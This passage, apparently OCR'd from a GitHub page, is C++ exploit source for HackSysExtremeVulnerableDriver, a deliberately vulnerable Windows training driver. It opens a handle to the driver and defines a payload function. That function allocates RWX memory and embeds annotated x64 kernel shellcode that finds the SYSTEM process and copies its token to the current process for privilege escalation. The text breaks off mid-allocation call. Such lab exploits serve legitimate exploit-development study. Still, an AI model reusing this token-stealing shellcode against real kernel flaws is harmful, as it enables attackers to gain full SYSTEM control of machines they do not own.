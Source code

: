 ```
 
    HANDLE hFile = CreateFileA(DEVICE_NAME,
        FILE_READ_ACCESS | FILE_WRITE_ACCESS,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);
 
    if (hFile == INVALID_HANDLE_VALUE) {
        cout << "[!] No handle to HackSysExtremeVulnerableDriver" << endl;
        exit(1);
    }
 
    cout << "[>] Grabbed handle to HackSysExtremeVulnerableDriver: 0x" << hex
        << (INT64)hFile << endl;
 
    return hFile;
}
 
void send_payload(HANDLE hFile, INT64 kernel_base) {
 
    cout << "[>] Allocating RWX shellcode..." << endl;
 
    // slightly altered shellcode from
    // https://github.com/Cn33liz/HSEVD-StackOverflowX64/blob/master/HS-StackOverflowX64/HS-StackOverflowX64.c
    // thank you @Cneelis
    BYTE shellcode[] =
        "\x65\x48\x8B\x14\x25\x88\x01\x00\x00"      // mov rdx, [gs:188h]       ; Get _ETHREAD pointer from KPCR
        "\x4C\x8B\x82\xB8\x00\x00\x00"              // mov r8, [rdx + b8h]      ; _EPROCESS (kd> u PsGetCurrentProcess)
        "\x4D\x8B\x88\xf0\x02\x00\x00"              // mov r9, [r8 + 2f0h]      ; ActiveProcessLinks list head
        "\x49\x8B\x09"                              // mov rcx, [r9]            ; Follow link to first process in list
        //find_system_proc:
        "\x48\x8B\x51\xF8"                          // mov rdx, [rcx - 8]       ; Offset from ActiveProcessLinks to UniqueProcessId
        "\x48\x83\xFA\x04"                          // cmp rdx, 4               ; Process with ID 4 is System process
        "\x74\x05"                                  // jz found_system          ; Found SYSTEM token
        "\x48\x8B\x09"                              // mov rcx, [rcx]           ; Follow _LIST_ENTRY Flink pointer
        "\xEB\xF1"                                  // jmp find_system_proc     ; Loop
        //found_system:
        "\x48\x8B\x41\x68"                          // mov rax, [rcx + 68h]     ; Offset from ActiveProcessLinks to Token
        "\x24\xF0"                                  // and al, 0f0h             ; Clear low 4 bits of _EX_FAST_REF structure
        "\x49\x89\x80\x58\x03\x00\x00"              // mov [r8 + 358h], rax     ; Copy SYSTEM token to current process's token
        "\x48\x83\xC4\x40"                          // add rsp, 040h
        "\x48\x31\xF6"                              // xor rsi, rsi             ; Zeroing out rsi register to avoid Crash
        "\x48\x31\xC0"                              // xor rax, rax             ; NTSTATUS Status = STATUS_SUCCESS
        "\xc3";
 
    LPVOID shellcode_addr = VirtualAlloc(NULL,
        sizeof(shellcode),
```